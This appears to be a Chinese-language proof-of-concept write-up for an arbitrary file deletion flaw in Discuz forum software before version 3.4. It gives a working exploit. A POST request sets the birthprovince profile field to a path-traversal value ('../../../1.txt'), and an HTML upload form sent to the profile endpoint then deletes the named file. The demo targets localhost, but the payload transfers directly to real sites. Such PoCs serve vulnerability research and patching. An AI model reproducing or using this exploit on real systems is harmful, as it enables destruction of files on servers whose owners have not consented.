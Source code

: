 # Discuz_＜3.4_birthprovince_前台任意文件删除

## Affected Version

Discuz < 3.4 版本

需要会员身份登陆站点。

下载地址： 链接: https://pan.baidu.com/s/1hsOoSte 密码: nvjj


## PoC


测试：

1. 为了不破坏原有程序，在根目录下新建 1.txt 作为演示。

![1](1.PNG)

2. 登陆前台，访问 http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base

先发起一个POST请求 

    birthprovince=../../../1.txt&profilesubmit=1&formhash=18a19dce
    // formhash 需要右键查看源代码得到

成功后，个人信息已经被修改成如下:

![changed](changed.PNG)

3. 最后，本地提交POST表单删除文件 1.txt

表单内容：

    <form action="http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
    <input type="file" name="birthprovince" id="file" />
    <input type="text" name="formhash" value="18a19dce"/></p>
    <input type="text" name="profilesubmit" value="1"/></p>
    <input type="submit" value="Submit" />
    </from>

随便上传一个图片提交会导致删除 birthprovince 设置的文件名称，在这里是 1.txt。

## References

1. http://www.freebuf.com/vuls/149904.html
2. http://www.freebuf.com/articles/system/149810.html
